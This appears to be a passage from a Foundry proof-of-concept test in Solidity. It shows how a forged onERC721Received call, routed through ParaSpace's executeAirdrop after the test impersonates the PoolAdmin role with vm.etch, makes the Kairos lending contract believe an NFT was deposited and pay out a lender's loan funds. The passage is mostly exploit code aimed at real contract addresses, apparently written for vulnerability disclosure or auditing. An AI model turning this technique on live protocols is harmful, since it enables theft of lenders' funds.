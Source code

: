 ```solidity
    //that we have the PoolAdmin role
    FakeACL fakeacl = new FakeACL();
    bytes memory code = address(fakeacl).code;
    vm.etch(paraspace_acl, code);

    vm.label(address(this), "ParaspacePoolAdmin");

    //paraspace is currently paused because of a recent incident
    // https://twitter.com/paraspace_nft/status/1637995427856547840
    //so let's unpause it for our simulation
    PoolConfigurator(0x11cE60Fc2F66A16DeAbAaE38a45f588D1BA9F436).unpausePool();

    if (cAPE(0xC5c9fB6223A989208Df27dCEE33fC59ff5c26fFF).paused() == true)
      cAPE(0xC5c9fB6223A989208Df27dCEE33fC59ff5c26fFF).unpause();

    //now that we will have the PoolAdmin role, let's call executeAirdrop
    //on the paraspace bound NFT
    //this function will call the  address supplied (kairos)
    //with the calldata supplied, in our case kairos.onERC721Received(....)

    //this in turn will cause kairos to trust that the tokenid exists and that it has been deposited
    //kairos will send the borrow amount from the lender to itself since we supply kairos'
    //address as the first parameter (operator) to it's onERC721Received
    paraspaceBoundNFT.executeAirdrop(
      address(kairos),
      abi.encodeWithSelector(
        kairos.onERC721Received.selector,
        address(kairos),
        address(0),
        1234,
        abi.encode(myargs[0].args)
      )
    );

    //fast forward 2 weeks (duration of loan)
    vm.warp(block.timestamp + myargs[0].args[0].offer.duration);

    //check the price
    uint256 price = kairos.price(1);

    //get the money buy
    getFlooz(address(this), money, price);

    //will revert since tokenid 1234 doesn't exist
    //if it did, it would revert because kairos doesn't own the token but it thinks it does
    //(so safeTransferFrom will fail from kairos to borrower)
    BuyArg[] memory buyarg = new BuyArg[](1);
    buyarg[0].loanId = 1;
    buyarg[0].to = address(this);

    kairos.buy(buyarg);
  }

  function onERC721Received(
    address,
    address,
    uint256,
    bytes memory
  ) public virtual override returns (bytes4) {
    return this.onERC721Received.selector;
  }

```